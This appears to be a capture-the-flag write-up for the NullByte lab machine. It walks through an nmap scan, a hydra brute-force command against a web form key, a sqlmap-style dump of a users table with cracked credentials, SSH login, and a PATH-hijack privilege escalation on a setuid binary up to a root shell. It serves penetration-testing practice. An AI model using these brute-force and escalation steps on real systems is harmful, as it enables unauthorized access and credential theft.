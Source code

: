 ```yaml
---
title: NullByte
categories: [Proving Grounds, Play]
tags: [Exiftool, Password BruteForce, PrivEsc]
image:
   path: https://miro.medium.com/v2/resize:fit:1200/1*3kROPA6FkXviVVJOMbfkLw.png
   alt: NullByte Machine !
---
```


### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled.png)

```bash
IP : 10.0.2.32
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/NullByte]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.32
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 09:44 IST
Nmap scan report for 10.0.2.32
Host is up (0.0053s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http?
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44254/tcp6  status
|   100024  1          56237/udp   status
|   100024  1          57300/tcp   status
|_  100024  1          59382/udp6  status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 163013d9d55536e81bb7d9ba552fd744 (DSA)
|   2048 29aa7d2e608ba6a1c2bd7cc8bd3cf4f2 (RSA)
|   256 6006e3648f8a6fa7745a8b3fe1249396 (ECDSA)
|_  256 bcf7448d796a194876a3e24492dc13a2 (ED25519)
57300/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:5C:97:BB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%202.png)

Now when I downloaded this ⬆️ eye image I recon over it through exiftool and I found this >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%203.png)

Now When I used this string as a web Directory I got this >>

 

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%204.png)

Source Code ⬇️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%205.png)

Now I have to brute-force the keys to get the exact one >>

```bash
sudo hydra 10.0.2.32 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -P /usr/share/wordlists/rockyou.txt -la
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%206.png)

After Entering this >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%207.png)

I think this data processing workes from mysql so let’s try sqlmap now >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%208.png)

```sql
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```
{: .nolineno}
{: .nolineno}

Lets crack this password >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2010.png)

```bash
Credentials >>
ramses : omega
```
{: .nolineno}
{: .nolineno}

Lets SSH now ⤵️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2012.png)

Now I think ps command is executed here os lets run sh instead of ps on procwatch file →

So  I have to change the Environment variable and include /tmp so that it can execute the sh directory which is copied in tmp directory →

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2013.png)

Now let’s run `./procwatch` ⬇️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2014.png)

```bash
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com

USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----

# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 08:00:27:5c:97:bb brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.32/24 brd 10.0.2.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe5c:97bb/64 scope link 
       valid_lft forever preferred_lft forever
# id    
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
#
```
{: .nolineno}
{: .nolineno}

I am root now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
